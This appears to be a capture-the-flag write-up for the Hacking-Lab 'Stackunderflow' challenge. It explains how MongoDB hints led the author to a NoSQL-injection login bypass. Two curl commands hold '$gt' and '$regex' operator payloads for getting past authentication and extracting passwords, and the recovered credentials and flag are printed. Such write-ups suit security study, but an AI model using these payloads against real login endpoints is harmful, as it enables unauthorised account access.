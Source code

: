 # 10 - Stackunderflow

*Check out this new Q&A site. They must be hiding something but we don't know where to search.*

[Stackunderflow](http://whale.hacking-lab.com:3371/)

---

My first ideas were to try SQL injection, tamper question IDs and do some basic password guessing. With no luck.
One must be very careful to catch the hints.. 
For example:

*We're currently migrating our database to support **humongous** amounts of questions. During this time it's not possible
to create or answer questions or create new accounts.*

Or

*Which NoSQL database do you use?*

*Depends on the use case. Try Redis, Neo4J, Couchbase, Cassandra or **MongoDB** just to name a few.*


This all points to the famous NoSQL database [MongoDB](https://www.mongodb.com/).

There is also a hint hidden in `robots.txt` but it is pretty useless: `Maybe the_admin knows more about the flag.`

This article [HACKING NODEJS AND MONGODB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
helped me a lot.

This is how you can bypass the login:
```
curl -H "Content-Type: application/json" -d '{ "username": "the_admin", "password": {"$gt": ""} }' http://whale.hacking-lab.com:3371/login
```

I was curious what is the admin's password. This payload helped me to guess the password characters.
```
curl -H "Content-Type: application/json" -d '{ "username": "the_admin", "password": {"$regex": "^[A-Za-z0-9_]*$"} }' http://whale.hacking-lab.com:3371/login
```

And with help of my [PasswordCracker](PasswordCracker.kt) I was able to recover the admin's password: `76eKxMEQFcfG3fPe`

I logged in and learnt that I need to recover the password of user `null`.

```
Should my password really be the flag?
Asked by null

No, I think we should change it.
Let's do it after the migration!
The migration is done but the password is still the same...
```

Just changing the username and running [PasswordCracker](PasswordCracker.kt) once more.
The null's password (and also the flag) is: `N0SQL_injections_are_a_thing`
